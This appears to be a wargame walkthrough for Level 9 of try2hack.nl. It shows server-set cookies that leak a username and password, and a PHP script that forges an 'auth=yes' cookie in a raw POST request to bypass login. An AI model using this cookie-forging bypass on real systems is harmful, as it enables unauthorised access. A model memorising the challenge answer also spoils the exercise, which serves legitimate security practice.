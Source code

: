 #### Level 9

I tried to get some header information by sending a GET request like I did in Level 7.
I then noticed some cookies being set:
```
Set-Cookie: str_username=admin
Set-Cookie: str_password=yu0aertehbomb
Set-Cookie: auth=no
```
Sending a POST request with the login-data and setting the cookie auth to 'yes' seemed to do the trick:
```php
<?php

if (!$socket = fsockopen('try2hack.nl', 80, $errno, $errstr, 20)) {
    print $errno . "-" . $errstr . "\n";
} 
else {
    $out  = "POST /levels/level9-gnapei.xhtml HTTP/1.1\r\n";
    $out .= "Host: try2hack.nl\r\n";
    $out .= "Connection: close\r\n";
    $out .= "Cookie: auth=yes; str_username=admin; str_password=yu0aertehbomb;\r\n";
    $out .= "Content-Type: application/x-www-form-urlencoded\r\n";
    $out .= "Content-Length: 50\r\n\r\n";
    $out .= "username=admin&password=yu0aertehbomb&submit=Enter";
    fwrite($socket, $out);
    while (!feof($socket)) {
        print fgets($socket, 2046);
    }
    fclose($socket);
}

?>
```